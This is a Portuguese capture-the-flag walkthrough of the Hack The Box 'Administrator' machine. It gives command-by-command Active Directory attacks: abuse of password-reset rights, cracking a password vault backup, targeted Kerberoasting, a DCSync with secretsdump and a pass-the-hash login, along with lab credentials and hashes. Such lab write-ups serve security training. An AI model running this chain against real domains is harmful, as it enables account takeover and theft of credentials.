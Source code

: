 #Difficult : Medium
#OS : Linux
#Info : As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: ``Olivia`` Password: ``ichliebedich``
***
# Port Scanning
Como sempre começamos escaneando as portas abertas na máquina para termos uma noção de quais serviços estão rodando na máquina.
```bash
nmap 10.10.11.42 -sC -Pn -sV -A -oN nmap_output_tcp
```
![[Pasted image 20250410175652.png]]
Encontramos alguns serviços  sendo os mais interessantes `FTP : 21`, `SMB : 445`, `LDAP : 389` e `kerberos : 88`.
***
# FTP and SMB Recon
Agora faço a enumeração do `FTP` e `SMB` para ver se tenho acesso e se há algo de importante.
```bash
netexec ftp 10.10.11.42 -u 'olivia' -p 'ichliebedich'

netexec smb 10.10.11.42 -u 'olivia' -p 'ichliebedich' --shares
```
![[Pasted image 20250410182955.png]]
Aparentemente não temos acesso ao `FTP` nem acesso a alguma pasta interessante no `SMB`.
***
# Lateral Movement
Primeiro faço um mapeamento de quais usuários regulares existem no sistema.
```bash
evil-winrm -i 10.10.11.42 -u 'Olivia' -p 'ichliebedich'

ls ../../
```
![[Pasted image 20250410201913.png]]
Aparentemente só temos 2 usuários regulares : `olivia` | `emily`.

Agora fazemos o mapeamento das relações do `AD` e analisamos no `BloodHound`.
```bash
mkdir hound_collection && hound_collection
bloodhound-python -u 'Olivia' -p 'ichliebedich' -d 'administrator.htb' -ns '10.10.11.42' -c All
```
![[Pasted image 20250410184015.png]]

``Olivia`` tem permissão `GenericAll` sob `Michael`, o que nos permite definirmos sua senha. Podemos trocar e já verificar suas permissões.
![[Pasted image 20250410184548.png]]
```bash
bloodyAd --host 'administrator.htb' -u 'olivia' -p 'ichliebedich' set password 'michael' '12345678'
```
![[Pasted image 20250410190409.png]]

`Michael` tem permissões de `ForceChangePassword` sob `Benjamin`, o que também nos permite trocar sua senha. Então novamente podemos trocar a senha.
![[Pasted image 20250410185238.png]]
```bash
bloodyAd --host 'administrator.htb' -u 'michael' -p '12345678' set password 'benjamin' '12345678'
```
![[Pasted image 20250410190428.png]]

`Benjamin` não tem permissões interessantes para usarmos.
![[Pasted image 20250410201554.png]]
***
# Password Database Cracking
Agora que temos mais dois usuários, podemos verificar novamente o `FTP` e `SMB`.
```bash
cd ../
echo 'michael\nbenjamin' > users.list

netexec smb 10.10.11.42 -u ./users.list -p '12345678' --shares

netexec ftp 10.10.11.42 -u ./users.list -p '12345678' --ls
```
![[Pasted image 20250410191820.png]]
No caso do `SMB`  não temos acesso a pastas interessantes, mas no caso do `FTP` temos acesso a um arquivo de backup de senhas.

Esses arquivos costumam ser protegidos por senhas, então baixamos e extraímos o hash da senha para usarmos como o `john`.
```bash
netexec ftp 10.10.11.42 -u 'benjamin' -p '12345678' --get 'Backup.psafe3'

pwsafe2john Backup.psafe3 > backup.hash
john --format=pwsafe backup.hash --wordlist=../rockyou.txt
john backup.hash --show
```
![[Pasted image 20250410192903.png]]

Agora podemos abrir o arquivo e usarmos a senha que acabamos de conseguir.
```bash
pwsafe ./Backup.psafe3
```
![[Pasted image 20250410193321.png]]

Como o usuário `emily` é o único que existe no sistema, começamos copiando sua senha e fazendo logon no sistema.
![[Pasted image 20250410193435.png]]

Agora que temos a senha de `emily` podemos logar.
```bash
evil-winrm -i 10.10.11.42 -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

ls ../Desktop
```
![[Pasted image 20250410193756.png]]
Conseguimos a flag de usuário.
***
# Kerberoasting 
Também podemos vemos suas permissões no `BloodHound`.
![[Pasted image 20250410194313.png]]
`Emily` tem permissões de `GenericWrite` sob `ethan`, o que nos permite um `Kerberoasting`.

Primeiro executamos o `Kerberoasting` para obtermos o `TGS` de `ethan`, e em seguida quebramos a hash com o `hashcat`.
```bash
targetedKerberoast -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
```
![[Pasted image 20250410195020.png]]

Obtivemos um erro de horário, o Kerberos é muito chato em relação a isso. Podemos então sincronizar nosso horário com o `DC`.
```bash
timedatectl set-ntp off
rdate -n 10.10.11.42
targetedKerberoast -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
```
![[Pasted image 20250410195819.png]]

Agora jogamos o hash `TGS` em um arquivo `ethan.tgs` e quebramos com o `hashcat`.
```bash
hashcat -m 13100 ./ethan.tgs ../rockyou.txt --show
```
![[Pasted image 20250410200130.png]]
***
# PRIV ESC - DCSync
Agora que temos a senha de `ethan` vamos ver suas permissões no `BloodHound`.![[Pasted image 20250410200505.png]]

`Ethan` tem permissões `GetChanges` e `GetChangesAll` sob `administrator.htb`, a combinação dessas duas permissões nos possibilita executar um `DCSync`. 

Usarei o `impacket-secretsdump` que se utiliza do `DCSync` para obter as `hashes` dos usuários e pegar a `hash` do usuário `Administrator`.
```bash
impacket-secretsdump "administrator.htb/ethan:limpbizkit"@"dc.administrator.htb"
```
![[Pasted image 20250410201051.png]]

Então podemos logar como `Administrator` e obter a flag.
```bash
evil-winrm -i 10.10.11.42 -u administrator -H "3dc553ce4b9fd20bd016e098d2d2fd2e"
```
![[Pasted image 20250410201211.png]]

**Owned!**
***

![[Pasted image 20250410201318.png]]